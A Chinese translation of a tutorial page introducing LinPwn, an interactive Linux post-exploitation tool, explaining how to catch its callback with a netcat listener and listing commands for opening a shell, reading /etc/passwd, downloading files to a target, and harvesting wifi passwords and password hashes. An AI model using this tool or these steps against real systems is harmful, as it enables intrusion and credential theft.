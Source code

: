 # LinPwn:交互式后期开发工具

> 原文：<https://kalilinuxtutorials.com/linpwn-interactive-post-exploitation-tool/>

[![LinPwn : Interactive Post Exploitation Tool](img//7044c949765b78a354a436e715225fa2.png "LinPwn : Interactive Post Exploitation Tool")](https://1.bp.blogspot.com/-eih6HaL-Rfw/Xbkf13fFK1I/AAAAAAAADL8/_K-b6E5mzqY5u-Wi7nl0Fs5_49lwHnQ7ACLcBGAsYHQ/s1600/LinPwn%2B%25281%2529.png)

LinPwn 是一款交互式工具，旨在帮助您进行漏洞利用后枚举和权限提升。

**连接**

*   在连接类中设置您希望它连接的 IP 和端口。
*   将 LinPwn 二进制文件放在目标机器上。
*   在您的机器上运行`**nc -lvp PORT**`,然后在目标机器上运行 LinPwn 来获得连接。

**也可阅读-[JSONBee:一个准备好使用 JSONP 端点/有效负载来帮助绕过不同网站的内容安全策略](https://kalilinuxtutorials.com/jsonbee-jsonp-endpoints-payloads/)**

**用法**

1.  shell 该命令执行/bin/sh
    示例用法:`**(LinPwn: Shell) > id**`
    键入 exit 返回 LinPwn。

2.  readfile–该命令将打印文件的内容。
    示例用法:`**(LinPwn: ReadFile)> /etc/passwd**`
    键入 exit 返回 LinPwn。

3.  enumerate–此命令运行 LinEnum.sh
    示例用法:`**(LinPwn) > enumerate**`
4.  download–该命令下载目标机器上的文件
    示例用法:`**(LinPwn: Download) > https://exampleurl.com/file_to_download**`
5.  wificredz–该命令收集保存的 wifi 密码
6.  hashdump–该命令收集系统密码散列

**编译**

我包含了一个名为 build.sh 的文件，这是可选的运行`bash build.sh`来查看构建选项，如果你想使用它们的话。

[**Download**](https://github.com/3XPL017/LinPwn)